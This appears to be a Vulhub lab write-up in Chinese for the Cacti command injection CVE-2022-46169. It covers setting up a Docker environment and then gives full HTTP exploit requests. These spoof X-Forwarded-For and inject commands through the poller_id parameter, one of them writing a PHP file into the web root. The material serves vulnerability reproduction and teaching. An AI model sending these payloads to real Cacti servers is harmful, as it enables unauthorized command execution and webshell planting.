 # Cacti 前台命令注入漏洞 CVE-2022-46169

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf
- https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A

## 漏洞环境

Vulhub执行如下命令启动一个Cacti 1.2.22版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会跳转到登录页面。使用admin/admin作为账号密码登录，并根据页面中的提示进行初始化。

实际上初始化的过程就是不断点击“下一步”，直到安装成功：

![image-20221228090322979](images/image-20221228090322979.png)

这个漏洞的利用需要Cacti应用中至少存在一个类似是`POLLER_ACTION_SCRIPT_PHP`的采集器。所以，我们在Cacti后台首页创建一个新的Graph：

![image-20221228090831131](images/image-20221228090831131.png)

选择的Graph Type是“Device - Uptime”，点击创建：

![image-20221228091535103](images/image-20221228091535103.png)

## 漏洞利用

完成上述初始化后，我们切换到攻击者的角色。作为攻击者，发送如下数据包：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2
```

![image-20221228092519319](images/image-20221228092519319.png)

虽然响应包里没有回显，但是进入容器中即可发现`/tmp/success`已成功被创建：

![image-20221228093004203](images/image-20221228093004203.png)

写入webshell：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`echo+'<?php+phpinfo();?>'>/var/www/html/test.php` HTTP/1.1
```

